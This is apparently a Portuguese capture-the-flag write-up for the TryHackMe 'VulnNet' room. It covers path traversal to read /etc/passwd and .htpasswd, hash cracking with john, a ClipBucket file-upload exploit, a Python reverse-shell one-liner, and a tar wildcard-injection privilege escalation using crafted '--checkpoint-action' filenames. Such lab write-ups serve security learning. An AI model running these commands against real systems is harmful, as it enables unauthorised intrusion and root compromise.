 https://tryhackme.com/room/vulnnet1

## Recon

Rodando o NMAP temos:

```
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu  
80/tcp open  http    Apache httpd 2.4.29 Ubuntu 
```

Usando o scan o **ZAP** foi encontrado um falha "Path Transversal" que pode ser explorada através do caminho `http://vulnnet.thm/index.php?referer=/etc/passwd`

Usando **Burpsuite** para realizar um *bruteforce* de diretórios nesse endpoint achei no diretório `/etc/apache2/.htpasswd` as credenciais:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0`

Crackeando com john através do comando abaixo encontrei a senha: **9972761drmfsls**

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Em background deixei um um fuzz de subdomínios rodando com comando abaixo e encontrei o subdomínio **broadcast**

```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://vulnnet.thm -H "HOST: FUZZ.vulnnet.thm"
```

Ao entrar nesse subdomínio, é preciso de logar e com essas creds acima foi possível fazer isso.

Neste subdomínio, o site é uma ferramenta de compartilhamento de vídeos e a sua versão é 4.0. Pesquisando vulnerabilidades dessa versão achei uma [repositório](https://github.com/abeljm/Exploit-ClipBucket-4-File-Upload) que faz upload de um arquivo .php que permite execução de código remoto. Usando python para reverse shell foi possível ter acesso à máquina com usuário www-data.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Privesc

Enumerando com [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration), achei um arquivo de backup com permissão de leitura no  caminho `/var/backups/ssh-backup.tar.gz`. Este arquivo contém a chave privada do do usuário *server-management*. Usando *ssh2john* e *john* obtive a passphrase deste usuário: **oneTWO3gOyac**.

```sh
ssh2john id_rsa > pass
john --wordlist=/usr/share/wordlists/rockyou.txt pass
```

Rodando um `cat /etc/crontab` existe um arquivo `/var/opt/backupsrv.sh` que faz backup de todos arquivos no diretório `/home/server-management/Documents` (que o usuário server-management tem permissão de escrita) e compacta para **tar**. Isso significa que é possível inserir três comandos para ganhar o root.

```sh
echo "chmod 4755 /bin/bash" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```

O script criado fará com que o bash tenha um bit SUID que pode ser executado com parâmetro -p para ganhar acesso ao root. Os outros dois comandos criam arquivos vazios que vai ser interpretados pelo **tar** como argumentos. Quando **tar** executar o argumento `--checkpoint=1`ele vai procurar todas as ações à serem tomadas (neste caso, executar o shell.sh).

Só esperar 2min (tempo da crontab rodar) e executar `bash -p` e GG.